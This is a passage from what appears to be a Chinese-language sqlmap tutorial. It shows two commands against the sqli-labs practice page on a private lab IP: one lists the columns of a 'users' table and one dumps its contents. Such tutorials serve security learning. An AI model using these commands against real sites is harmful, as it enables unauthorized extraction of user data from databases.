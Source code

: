 使用`-T`参数指定`users`表，使用`--columns`参数获取列名

```bash
sqlmap -u "http://192.168.6.112:8080/Less-1/?id=1" -p id -D security -T users --columns --flush-session --batch
```

![11](/medias/sqlmap/11.png)

使用`--dump`，脱出指定表的数据

```bash
sqlmap -u "http://192.168.6.112:8080/Less-1/?id=1" -p id -D security -T users --dump --flush-session --batch
```

![12](/medias/sqlmap/12.png)
